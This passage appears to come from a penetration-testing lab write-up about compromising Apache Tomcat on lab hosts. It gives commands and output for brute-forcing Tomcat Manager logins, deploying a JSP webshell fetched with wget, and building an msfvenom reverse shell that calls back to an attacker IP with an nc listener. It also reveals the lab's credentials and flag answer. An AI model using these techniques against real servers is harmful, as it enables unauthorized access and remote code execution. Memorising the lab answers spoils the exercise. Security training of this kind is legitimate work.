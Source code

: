 ```shell-session

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

In some Tomcat installs, we may be able to access sensitive data within the WEB-INF file.

***

### Moving On

Tomcat is always a great find on internal and external penetration tests. Whenever we come across it, we should test the Tomcat Manager area for weak/default credentials. If we can log in, we can quickly turn this access into remote code execution. It’s common to find Tomcat running as high-privileged users such as SYSTEM or root, so it is always worth digging into as it could provide us with a privileged foothold on a Linux server or a domain-joined Windows server in an Active Directory environment.

**Questions**

Perform a login bruteforcing attack against Tomcat manager at http://web01.inlanefreight.local:8180. What is the valid username & password?

```bash
#https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
[+] Atacking.....
[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'root'
```

Obtain remote code execution on the http://web01.inlanefreight.local:8180 Tomcat instance. Find and submit the contents of tomcat\_flag.txt

```bash
#https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp 
#now upload it
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

or we can use msfvenom

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.98 LPORT=4443 -f war > backup.war
nc -lnvp 4443
#now click /backup in tomcat manager to get revshells
find / -name tomcat_flag.txt 2>/dev/null
cat /opt/tomcat/apache-tomcat-10.0.10/webapps/tomcat_flag.txt
t0mcat_rc3_ftw!
```
